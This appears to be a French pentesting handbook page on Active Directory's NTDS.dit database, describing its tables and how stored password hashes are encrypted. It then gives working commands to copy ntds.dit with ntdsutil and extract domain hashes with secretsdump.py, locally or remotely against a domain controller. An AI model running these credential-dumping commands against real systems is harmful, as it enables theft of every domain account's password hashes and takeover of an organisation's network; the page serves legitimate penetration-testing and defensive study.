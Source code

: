 Le fichier **NTDS.dit** est connu comme le cœur de **Active Directory**, contenant des données cruciales sur les objets utilisateurs, les groupes et leurs adhésions. C'est là que les **hashs de mot de passe** pour les utilisateurs de domaine sont stockés. Ce fichier est une base de données **Extensible Storage Engine (ESE)** et se trouve à **_%SystemRoom%/NTDS/ntds.dit_**.

Dans cette base de données, trois tables principales sont maintenues :

- **Table de données** : Cette table est chargée de stocker des détails sur des objets comme les utilisateurs et les groupes.
- **Table de liens** : Elle suit les relations, telles que les adhésions aux groupes.
- **Table SD** : Les **descripteurs de sécurité** pour chaque objet y sont conservés, garantissant la sécurité et le contrôle d'accès pour les objets stockés.

Plus d'informations à ce sujet : [http://blogs.chrisse.se/2012/02/11/how-the-active-directory-data-store-really-works-inside-ntds-dit-part-1/](http://blogs.chrisse.se/2012/02/11/how-the-active-directory-data-store-really-works-inside-ntds-dit-part-1/)

Windows utilise _Ntdsa.dll_ pour interagir avec ce fichier et il est utilisé par _lsass.exe_. Ensuite, **une partie** du fichier **NTDS.dit** pourrait être localisée **dans la mémoire de `lsass`** (vous pouvez trouver les données récemment accédées probablement à cause de l'amélioration des performances grâce à un **cache**).

#### Décryptage des hashs à l'intérieur de NTDS.dit

Le hash est chiffré 3 fois :

1. Décrypter la clé de chiffrement de mot de passe (**PEK**) en utilisant le **BOOTKEY** et **RC4**.
2. Décrypter le **hash** en utilisant **PEK** et **RC4**.
3. Décrypter le **hash** en utilisant **DES**.

**PEK** a la **même valeur** dans **chaque contrôleur de domaine**, mais il est **chiffré** à l'intérieur du fichier **NTDS.dit** en utilisant le **BOOTKEY** du **fichier SYSTEM du contrôleur de domaine (différent entre les contrôleurs de domaine)**. C'est pourquoi pour obtenir les identifiants du fichier NTDS.dit **vous avez besoin des fichiers NTDS.dit et SYSTEM** (_C:\Windows\System32\config\SYSTEM_).

### Copier NTDS.dit en utilisant Ntdsutil

Disponible depuis Windows Server 2008.
```bash
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
```
Vous pouvez également utiliser le [**volume shadow copy**](./#stealing-sam-and-system) pour copier le fichier **ntds.dit**. N'oubliez pas que vous aurez également besoin d'une copie du fichier **SYSTEM** (encore une fois, [**dump it from the registry or use the volume shadow copy**](./#stealing-sam-and-system) trick).

### **Extraction des hashes depuis NTDS.dit**

Une fois que vous avez **obtenu** les fichiers **NTDS.dit** et **SYSTEM**, vous pouvez utiliser des outils comme _secretsdump.py_ pour **extraire les hashes** :
```bash
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```
Vous pouvez également **les extraire automatiquement** en utilisant un utilisateur administrateur de domaine valide :
```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```
Pour **de gros fichiers NTDS.dit**, il est recommandé de les extraire en utilisant [gosecretsdump](https://github.com/c-sto/gosecretsdump).
